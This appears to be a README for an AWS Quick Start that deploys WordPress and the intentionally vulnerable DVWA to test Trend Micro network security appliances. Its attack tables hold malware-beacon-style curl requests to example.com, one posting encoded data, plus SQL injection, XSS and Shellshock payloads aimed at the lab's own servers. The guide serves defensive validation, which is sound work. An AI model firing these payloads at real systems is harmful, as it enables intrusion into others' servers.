

# quickstart-network-security-edge-deployment

*Note: This Quick Start is an adaptation of original [Wordpress High Availability By Bitnami](https://github.com/aws-quickstart/quickstart-bitnami-wordpress). The original quickstart has been modified to include DVWA instance in the deployment*

## Purpose and Objectives

This Quick Start deploys WordPress High Availability by Bitnami, which includes WordPress and Amazon Aurora, in a highly available environment on AWS in about 40 minutes. It also deploys Damn Vulnerable Web Application (DVWA) in one of the public subnets. The purpose of this quickstart is to provide users a sample environment where they can deploy Network Security Virtual Appliance to protect their resources including web servers and databases etc.

After deploying this Quick Start, you will be able to:

- Deploy Network Security Virtual Appliance (NSVA) as an [Edge Protection](https://cloudone.trendmicro.com/docs/network-security/option1/)
- Configure your security profile in Network Security console by distributing various Intrustion Prevention (IPS), Geo Filters to prevent your resources from inbound and outbound attack.
- Perform various inbound and outbound attacks to validate protection.
- Access logs of Network Security Virtual Applicance (NSVA) to verify which filters are getting triggered.

## Quick Start architecture for WordPress High Availability by Bitnami and DVWA on AWS

## Deployment Steps

*Note: You can deploy this Quick Start using the default S3 template link below if you don't wish to make changes to this code and deploy with your own customized changes:*

`https://quickstart-network-security.s3.us-west-1.amazonaws.com/edge-deployment/templates/edge-deployment.template`
### 1. Deploy sample Wordpress environment with DVWA 
The Quick Start offers two deployment options:

- Deploying WordPress High Availability by Bitnami and DVWA into a new virtual private cloud (VPC) on AWS
- Deploying WordPress High Availability by Bitnami and DVWA into an existing VPC on AWS

For architectural details, best practices, step-by-step instructions, and customization options, see the 
[Bitnami quickstart deployment guide](https://fwd.aws/arqWN).

Before proceeding to deploy the Quick Start, please create a new SSH key pair for DVWA instance in the AWS region you will be deploying the Quick Start to. You may use the same key pair as the one you created for Bastion hosts if you don't want to create an additional keypair.

Below are the additional parameters for DVWA Configuration that the Quickstart uses:

#### DVWA Configuration

| Parameter label (name)                                   | Default        | Description        |
| :--------------------------------------------------------| :------------- | :----------------- |
| DVWA Instance Type (DVWAInstanceType)                    | t2.micro       | Amazon EC2 instance type for the DVWA instance            |
| Allowed DVWA External Access CIDR (DVWARemoteAccessCIDR) | 127.0.0.1/32   | The CIDR IP range that is permitted external SSH access to the bastion host instances. We recommend that you set this value to a trusted IP range |
| SSH KeyPair Name (DVWAKeyPairName)                       | Requires input | A public/private key pair, which allows you to connect securely to your instance after it launches. When you created an AWS account, this is the key pair you created in your preferred region |
### 2. Deploying Network Security to your environment

After the CloudFormation stack is successfully deployed, please use the deployment wizard in your Network Security console to deploy Network Security Appliance in your environment. For detailed step-by-step instructions on deploying Network Security please check [Deploy Protection](https://cloudone.trendmicro.com/docs/network-security/add_cloud_accounts_appliances/) section

Once the Network Security Virtual Appliances have been succcessfully deployed, make sure they are visible in the Trend Micro Cloud One console and are reporting 'Active' status.

Your environment is now ready to inspect inbound and outbound traffic!

### 3. Enable CloudWatch logs for your Network Security Appliances

In order to see the block logs after doing various attacks, you will need to configure logs for each of your Network Security Appliance. For detailed step-by-step instructions on enabling CloudWatch logs please check [Enable CloudWatch logs](https://cloudone.trendmicro.com/docs/network-security/Manage_Network_Security_instances/#cloudwatch)

You will need to enable at least `ipsBlock` and `reputationBlock` to see logs from attacks listed below.

## Performing IPS, Geo and SQL Attacks

Before performing each attack, please perform the following steps:
1. Configure respective filter to Block and Log mode in Trend Micro Cloud One console. For detailed steps please check [Customize filter settings using the GUI](https://cloudone.trendmicro.com/docs/network-security/Customize_filter_settings_GUI/)
2. Distribute profile with filter overrides. For detailed steps please check [Distribute filter overrides to your network](https://cloudone.trendmicro.com/docs/network-security/Filter_overrides_GUI/)

### Outbound Attacks

Below is the list of outbound attacks you can perform from your Wordpress WebServer. You will need to SSH into the webserver instance via Bastion Host that is created as part of the Quick Start setup.

| Filter ID  | Attack                                                          |
| :--------- | :-------------------------------------------------------------- |
| 25492      | `curl -H 'User-Agent: sdvntyer' http://www.example.com/api/v88` |
| 34738      | `curl 'http://www.example.com/includes/main.php?t=7d4580a3910c54d62b46f24c397c8d59&f=g2&type=cmd&id=D7CB4B6E5A21CA596DE0A7E10059C85E'`|
| 38451      | `curl -H 'User-Agent: ArcherGhost' -d 'post=eyJkYXRhIjogeyJkb21haW4iOiAiaHR0cDovL3RhcmdldDEyMy5jb20vYXNzZXRzL3ZlbmRvci9waHB1bml0L3BocHVuaXQvc3JjL1V0aWwvUEhQL3Nzc3AucGhwIiwgInNlcnZlciI6ICIxOTIuMTY4LjEwNy4xOSIsICJ0aXRsZSI6ICJqcSJ9LCAidHlwZSI6ICJzY2FubmVyIn0%3D' http://www.example.com/adeliap/404.php` |

### Geo Filter Attacks

In order to perform Geo Filter attacks, you need to first configure Geo Filters in Trend Micro Cloud One console by selecting a geographic region to block traffic. For detailed steps on how to configure Geo Filters, please check [Geolocation Filter](https://cloudone.trendmicro.com/docs/network-security/Geo_Location_filtering/). 

Below is the list of geofilter attacks you can perform from your Wordpress WebServer. You will need to SSH into the webserver instance via Bastion Host that is created as part of the Quick Start setup.

| Region | Attack |
| :----- | :----------------------- |
| China  | `curl https://baidu.com` |
| Russia | `curl https://mail.ru `  |

### SQL Attacks

SQL Attacks can be performed on DVWA server that is spun up as part of the Quick Start. In order to perform SQL Attacks, you wil need to first configure the application security level to "Low" in order for attacks to work properly. This can be done as follows:

1. Login to DVWA application from your browser. You can retrieve the DVWAPublicIP from the "Output" tab of your DVWA CloudFormation stack. The URL would be `http://<DVWAPublicIP>`
2. Login to Web Application using following default credentials
    Username: `admin`
    Password: `password`
3. Go to DVWA Security menu on the side navigation panel
4. Set Security Level to "Low" and hit Submit button

Below are some SQL attacks you can perform on your DVWA server

| Filter ID  | Attack                                                        |
| :--------- | :------------------------------------------------------------ |
| 3593      | 1. Go to SSL Injection menu on the side navigation panel 2. Enter `?id=a' UNION SELECT "text1","text2";-- -&Submit=Submit` in "User ID" text box and hit submit |
| 12365      | On your browser, enter `http://<DVWAPublicIP>/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(1)%3C/script%3E` |

### Inbound Attacks

Inbound attacks could be performed on any publicly accessible webserver. In this case, we can perform a simple Shell Shock attack on our DVWA server

| Filter ID  | Attack                                                             |
| :--------- | :----------------------------------------------------------------- |
| 16798      | `curl -H "User-Agent: () { :; }; /bin/eject" http://<DVWAServerIP>` |
